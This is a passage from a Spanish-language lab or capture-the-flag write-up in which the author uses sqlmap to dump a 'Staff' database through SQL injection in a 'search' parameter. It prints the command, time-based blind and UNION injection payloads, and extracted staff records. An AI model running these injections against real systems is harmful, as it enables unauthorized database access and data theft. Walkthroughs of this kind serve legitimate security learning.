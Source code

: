 Que lindo, me trajo todos los usuarios con sus respectivos passwords. Me imaginé que más adelante iba a tener que usarlos así que separé la tabla en dos archivos: **user y password** ¿A ver que tiene la tabla `Staff`?

> **``sqlmap -r request.req --dbms=mysql -D Staff --dump``**

```console
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.5#stable}
|_ -| . [,]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:10:34 /2020-07-22/

[12:10:34] [INFO] parsing HTTP request from 'request.req'
[12:10:35] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=asd' AND (SELECT 4062 FROM (SELECT(SLEEP(5)))ryqh) AND 'NvLD'='NvLD

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: search=asd' UNION ALL SELECT NULL,NULL,CONCAT(0x717a786a71,0x524e496b5750636b75576d6167794b57574b7553714a61694c434147436b45656e6976525a524a78,0x71716a7871),NULL,NULL,NULL-- -
---
[12:10:35] [INFO] testing MySQL
[12:10:35] [INFO] confirming MySQL
[12:10:35] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[12:10:35] [INFO] fetching tables for database: 'Staff'
[12:10:35] [INFO] fetching columns for table 'StaffDetails' in database 'Staff'
[12:10:35] [INFO] fetching entries for table 'StaffDetails' in database 'Staff'
Database: Staff
Table: StaffDetails
[17 entries]
+------+-----------------------+----------------+------------+---------------------+-----------+-------------------------------+
| id   | email                 | phone          | lastname   | reg_date            | firstname | position                      |
+------+-----------------------+----------------+------------+---------------------+-----------+-------------------------------+
| 5    | tomc@example.com      | 802438797      | Cat        | 2019-05-01 17:32:00 | Tom       | Driver                        |
| 10   | joeyt@example.com     | 232131654      | Tribbiani  | 2019-05-01 17:32:00 | Joey      | Janitor                       |
| 15   | scoots@example.com    | 454786464      | McScoots   | 2019-05-01 20:16:33 | Scooter   | Resident Cat                  |
| 3    | fredf@example.com     | 46415323       | Flintstone | 2019-05-01 17:32:00 | Fred      | Systems Administrator         |
| 8    | bettyr@example.com    | 90239724378    | Rubble     | 2019-05-01 17:32:00 | Betty     | Junior Accounts               |
| 13   | monicag@example.com   | 8092432798     | Geller     | 2019-05-01 17:32:00 | Monica    | Marketing                     |
| 1    | marym@example.com     | 46478415155456 | Moe        | 2019-05-01 17:32:00 | Mary      | CEO                           |
```